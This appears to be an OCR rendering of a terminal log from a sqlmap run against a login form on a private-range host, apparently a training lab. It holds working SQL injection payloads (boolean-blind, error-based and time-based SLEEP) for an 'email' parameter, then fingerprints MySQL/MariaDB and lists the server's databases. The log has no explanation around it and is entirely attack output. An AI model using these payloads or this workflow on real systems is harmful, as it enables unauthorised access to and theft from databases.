 ```shell
[18:41:35] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[18:41:35] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
[18:41:35] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[18:41:35] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[18:41:36] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[18:41:36] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[18:41:36] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[18:41:36] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[18:41:36] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[18:41:37] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[18:41:37] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[18:41:45] [INFO] testing 'MySQL UNION query (98) - 21 to 40 columns'
[18:41:46] [INFO] testing 'MySQL UNION query (98) - 41 to 60 columns'
[18:41:46] [INFO] testing 'MySQL UNION query (98) - 61 to 80 columns'
[18:41:54] [INFO] testing 'MySQL UNION query (98) - 81 to 100 columns'
GET parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 857 HTTP(s) requests:
---
Parameter: email (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=test' AND 4324=(SELECT (CASE WHEN (4324=4324) THEN 4324 ELSE (SELECT 7054 UNION SELECT 8357) END))-- UyNy&password=test

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=test' OR (SELECT 8539 FROM(SELECT COUNT(*),CONCAT(0x716b717171,(SELECT (ELT(8539=8539,1))),0x717a707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JTnW&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test' AND (SELECT 7937 FROM (SELECT(SLEEP(5)))Judt)-- YLPd&password=test
---
[18:42:18] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:42:18] [INFO] fetching database names
[18:42:18] [INFO] retrieved: 'information_schema'
[18:42:18] [INFO] retrieved: 'ai'
[18:42:18] [INFO] retrieved: 'mysql'
[18:42:18] [INFO] retrieved: 'performance_schema'
[18:42:18] [INFO] retrieved: 'phpmyadmin'
[18:42:18] [INFO] retrieved: 'test'
available databases [6]:
[*] ai
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test

[18:42:18] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.32.196'
[18:42:18] [WARNING] you haven't updated sqlmap for more than 2022 days!!!

[*] ending @ 18:42:18 /2025-10-16/

root@ip-10-10-129-125:~# 
```
